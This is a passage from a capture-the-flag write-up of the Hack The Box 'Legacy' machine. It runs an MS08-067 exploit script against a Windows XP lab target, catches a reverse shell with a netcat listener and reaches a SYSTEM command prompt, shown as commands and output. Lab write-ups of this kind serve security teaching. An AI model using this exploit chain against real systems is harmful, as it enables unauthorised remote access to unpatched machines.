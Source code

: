 ## Initial access

Now we are ready to launch the exploit. It will create a reverse shell back to our machine.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy/ms08_067]
└─$ python ms08_067_2018.py 10.129.253.57 7 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (AlwaysOn NX)

[-]Initiating connection
[-]connected to ncacn_np:10.129.253.57[\pipe\browser]
Exploit finish

```
Let's check our netcat listener for a connection.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy]
└─$ sudo nc -lvp 443                       
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.253.57.
Ncat: Connection from 10.129.253.57:1042.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```
We got a connection on the machine. Since we got a connection on the target as system (default) we can capture the user and root flag.

```bash
C:\WINDOWS\Temp>cd c:\
cd c:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\

16/03/2017  08:30 ��                 0 AUTOEXEC.BAT
16/03/2017  08:30 ��                 0 CONFIG.SYS
16/03/2017  09:07 ��    <DIR>          Documents and Settings
29/12/2017  11:41 ��    <DIR>          Program Files
18/05/2022  03:10 ��    <DIR>          WINDOWS
               2 File(s)              0 bytes
               3 Dir(s)   6.312.620.032 bytes free
```